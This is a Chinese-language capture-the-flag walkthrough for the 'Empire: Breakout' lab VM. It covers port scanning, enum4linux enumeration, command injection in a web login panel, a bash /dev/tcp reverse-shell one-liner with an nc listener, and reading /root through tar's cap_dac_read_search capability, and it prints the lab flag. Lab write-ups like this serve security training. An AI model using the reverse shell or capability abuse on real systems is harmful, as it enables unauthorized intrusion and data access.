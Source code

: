 ## EMPIRE: BREAKOUT

**反弹shell**

**利用tar 绕过权限**

1.安装虚拟机后，已经显示IP 10.1.12.175

2.nmap -p- 10.1.12.175 :查看开放端口

3.nmap -sV -10.1.12.175:查看端口详细信息

4.打开10.1.12.175，并显示原网页

5.enum4linux -a adrr：enum4linux -a 的功能
当你运行 enum4linux -a adrr 时，adrr 是目标系统的 IP 地址或主机名。-a 选项告诉 enum4linux 执行全面的扫描，包括以下几个方面：

基本信息：

目标主机的基本网络信息，例如操作系统版本、NetBIOS 名称等。
用户列表：

枚举目标系统上的用户账户信息。
共享资源：

枚举目标系统上共享的文件和目录。
组信息：

枚举目标系统上的用户组信息。

域信息：

如果目标系统是域控制器，则会获取域的相关信息。
密码策略：

获取目标系统的密码策略和安全配置。

6.enum4linux -a 10.1.12.175得倒用户名cyber

7.打开端口10000和20000：10.1.12.175:20000，能看到登录界面，使用用户名cyber和密码登录，发现存在命令行注入

8.使用**反弹shell**，常用命令：bash -i >& /dev/tcp/47.xxx.xxx.72（攻击机地址）/5677（开启端口） 0>&1，进行命令注入，同时在攻击机开启监听（nc -l 5677(或其他端口)）。先开启监听，随后使用bash注入，能在攻击机看到进入cyber@breakout。

9.进入cyber@breakout，ls发现存在可疑压缩文件tar，疑似可以通过压缩的方式绕过root权限审查，于是使用命令：getcap tar检查权限，得到tar cap_dac_read_search=ep。解释：cap_dac_read_search 允许进程绕过文件读取权限检查和目录读取及执行权限检查；“=ep”：‘e’：有效（effective）标志，表示该能力在进程运行时是有效的。‘p’：许可（permitted）标志，表示该能力是进程允许使用的。
//当 tar 命令被赋予 cap_dac_read_search=ep 能力时，它可以读取那些它本来没有权限读取的文件和目录。这在备份和恢复过程中非常有用，因为 tar 可能需要访问系统中所有的文件来创建完整的备份。

10.使用命令./tar cvf cyber.tar /root：因为tar具有读取那些它本来没有权限读取的文件和目录的能力，因此将root打包到cyber.tar中，可以绕过权限，读取root

11.ls 可以看到生成的cyber.tar还有root, cd root;ls;可以看到root中的文件rOOt.txt;cat rOOt.txt
“3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}”夺旗成功

